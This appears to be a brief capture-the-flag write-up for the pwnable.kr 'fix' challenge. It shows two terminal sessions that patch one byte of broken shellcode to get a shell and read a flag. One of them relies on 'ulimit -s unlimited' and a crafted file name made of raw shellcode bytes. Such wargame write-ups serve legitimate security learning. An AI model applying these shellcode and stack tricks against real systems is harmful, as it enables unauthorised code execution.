 ### my exploit
```
fix@ubuntu:~$ mkdir /tmp/exp_it
fix@ubuntu:~$ cd /tmp/exp_it
fix@ubuntu:/tmp/exp_it$ echo -e 'echo cat /home/fix/flag > \x83\xc4\x10\x83\xec\x0c\x50\xe8\x8d\x63\x01' | /bin/sh
fix@ubuntu:/tmp/exp_it$ /home/fix/fix
What the hell is wrong with my shellcode??????
I just copied and pasted it from shell-storm.org :(
Can you fix it for me?
Tell me the byte index to be fixed : 15
Tell me the value to be patched : 201
get shell
Sorry for blaming shell-strom.org :) it was my ignorance!
```

### awesome exploit form writeups section on pwnable.kr
```
fix@ubuntu:~$ ulimit -s unlimited
fix@ubuntu:~$ ./fix
What the hell is wrong with my shellcode??????
I just copied and pasted it from shell-storm.org :(
Can you fix it for me?
Tell me the byte index to be fixed : 15
Tell me the value to be patched : 92
get shell
$ cat flag
Sorry for blaming shell-strom.org :) it was my ignorance!
```
`ulimit -s unlimited` allows to use address `0x6e69622f ("/bin"?)` as proper stack address.
